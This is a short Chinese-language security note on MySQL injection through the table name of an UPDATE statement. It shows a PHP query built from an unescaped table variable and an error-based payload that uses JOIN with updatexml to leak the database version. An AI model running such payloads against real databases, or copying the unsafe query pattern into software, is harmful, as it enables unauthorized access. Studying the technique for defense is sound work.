

## Mysql突破换行符限制

```php
<?php
    $sql = "UPDATE `{$table}`
		   SET `username` = 'admin'
		   WHERE id = 1";
	mysqli_query($link, $sql);
?>
```

### 基础

#### 注释归纳



其中关于PDO, 他是PHP访问数据库的接口

> PHP 数据对象 （PDO） 扩展为PHP访问数据库定义了一个轻量级的一致接口。
>
> PDO 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。
>
> PDO随PHP5.1发行，在PHP5.0的PECL扩展中也可以使用，无法运行于之前的PHP版本。

#### UPDATE table中的table Syntax

可以是表名，或者JION动态引入的多个表

> https://goo.gl/lvIf7E

### 利用

#### JOIN利用

```sql
UPDATE `user` JOIN (SELECT updatexml(0,concat(0xa,version()),0))a#`
SET username='admin'
WHERE id=1;
```

